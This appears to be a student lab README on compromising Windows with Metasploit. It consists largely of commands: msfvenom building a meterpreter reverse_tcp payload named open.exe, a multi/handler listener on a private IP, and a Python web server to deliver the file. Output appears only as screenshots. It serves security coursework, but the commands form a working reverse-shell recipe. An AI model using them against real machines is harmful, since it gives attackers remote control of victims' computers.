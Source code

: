 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
 
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```
## OUTPUT

![image](https://github.com/user-attachments/assets/e9635a54-219d-4435-9247-440690254853)


```python3 -m http.server 5678```

### OUTPUT:

![image](https://github.com/user-attachments/assets/da793e31-df02-4d4a-8387-9bd2557df737)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
